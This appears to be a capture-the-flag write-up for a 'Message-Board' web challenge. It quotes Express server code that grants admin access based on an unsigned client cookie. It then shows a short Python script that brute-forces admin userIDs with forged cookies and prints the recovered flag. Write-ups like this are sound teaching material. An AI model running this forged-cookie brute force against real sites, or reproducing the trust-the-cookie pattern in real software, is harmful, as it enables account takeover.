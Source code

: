 # Message-Board

Application uses cookie: `j:{"userID":"972","username":"kupatergent"}` to recognize the user. 

```javascript
app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
```

When doing a get request, it checks if cookie's userID is same as admin's. Since default user's userID is 972, I guessed that admin's must be bruteforcable. 

I created a small bruteforce script.

```python
import requests
import re

url = "https://message-board.hsc.tf/"

for id in range(750, 900):
    cookies = {"userData": 'j:{"userID":"%s","username":"admin"}' % id}
    r = requests.get(url, cookies=cookies)
    print(f"[+] id: {id} - length: {len(r.content)}")
    if len(r.content) != 1813:
        print("[!] Found the flag")
        print(re.findall("flag{.*}", r.text)[0])
        break


```

Admin userID is 768
## Flag
flag{y4m_y4m_c00k13s}